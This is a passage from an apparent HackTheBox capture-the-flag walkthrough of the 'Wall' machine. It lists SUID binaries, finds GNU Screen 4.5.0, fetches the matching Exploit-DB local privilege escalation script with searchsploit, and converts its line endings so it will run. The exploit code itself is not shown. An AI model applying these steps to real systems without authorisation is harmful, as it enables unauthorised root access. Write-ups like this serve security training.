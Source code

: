 ## Privilege Escalation

Now let's run LinEnum to gather basic information about the system.

### SUID Exploit

LinEnum shows an interesting SUID - `/bin/screen-4.5.0`.

To look for SUIDs manually, you can run the command below.

```
$ find / -xdev -perm /4000 2>/dev/null
/bin/mount
/bin/ping
/bin/screen-4.5.0
/bin/fusermount
/bin/su
/bin/umount
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/traceroute6.iputils
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/sudo
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/eject/dmcrypt-get-device
```
Some googling reveals that GNU Screen 4.5.0 has a vulnerability that enables privilege escalation. We can mirror the exploit script with searchsploit.
```
root@kali:~/htb/wall# searchsploit -m exploits/linux/local/41154.sh
  Exploit: GNU Screen 4.5.0 - Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/41154
     Path: /usr/share/exploitdb/exploits/linux/local/41154.sh
File Type: Bourne-Again shell script, ASCII text executable, with CRLF line terminators

Copied to: /root/htb/wall/41154.sh
```
The file type states that it has CRLF line terminators (^M). So we'll need to deal with that for the exploit to work on a Linux machine.

[To do so](https://support.microfocus.com/kb/doc.php?id=7014821), use this command:

`perl -p -e 's/\r//g' exploit.sh > exploit-crlf-removed.sh`

* `-p` - loops by line the command that follows `-e`
* `\r` - carriage return (CR)
* `/g` - modifier for global matching

[Learn more about perl search and replace here.](https://perldoc.perl.org/perlrequick.html#Search-and-replace)
